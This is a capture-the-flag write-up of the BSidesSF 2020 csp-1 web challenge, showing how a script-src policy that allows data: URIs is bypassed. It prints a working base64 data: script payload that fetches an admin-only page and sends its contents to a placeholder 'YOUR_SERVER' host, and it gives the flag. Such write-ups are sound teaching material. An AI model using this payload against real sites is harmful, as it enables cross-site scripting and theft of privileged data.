 I played [BSidesSF 2020 CTF](https://ctf.bsidessf.net/) held on <i>9 AM PST on February 23 to 4 PM PST on February 24</i>.

Our team [NekochanNano!](https://ctftime.org/team/72201) got 924pts (20th place).

[f:id:Szarny:20200225133252p:plain]

Hereafter, I write about the challenges that I solved.

[:contents]

# [Web / 51pts] csp-1
When we open the challenge's URL, the following sentence and a form will appear.

```
Can you bypass the CSP?
Try to read /csp-one-flag as admin, all payloads submitted here will be sent to the admin.
```

[f:id:Szarny:20200225133014p:plain]

As you can see from the title and that sentence, this is a challenge regarding the **CSP bypass**.

Let's check the `content-security-policy` value in the HTTP Response Header.

```
content-security-policy: 
    script-src 'self' data:; 
    default-src 'self'; 
    connect-src *; 
    report-uri /csp_report
```

In the `script-src` directive, `data:` scheme is shown. 

For that reason, JavaScript program written in `data:` scheme like below is allowed and can be executed.

```html
// NOTE:
// "ZmV0Y..." is base64 encoded text of this script.
// fetch("https://csp-1-5aa1f221.challenges.bsidessf.net/csp-one-flag").then(r=>r.text()).then(t=>fetch("YOUR_SERVER"+t))

<script src="data:text/javascript;base64,ZmV0Y2goImh0dHBzOi8vY3NwLTEtNWFhMWYyMjEuY2hhbGxlbmdlcy5ic2lkZXNzZi5uZXQvY3NwLW9uZS1mbGFnIikudGhlbihyPT5yLnRleHQoKSkudGhlbih0PT5mZXRjaCgiWU9VUl9TRVJWRVIiK3QpKQ=="></script>
```

When you enter this script tag, the JavaScript will be executed on the browser of admin and you can get the flag in the access log on your web server.

FLAG: `CTF{Cant_Stop_Pwning}`

# [Web / 51pts] csp-2
A revised version of the previous question.
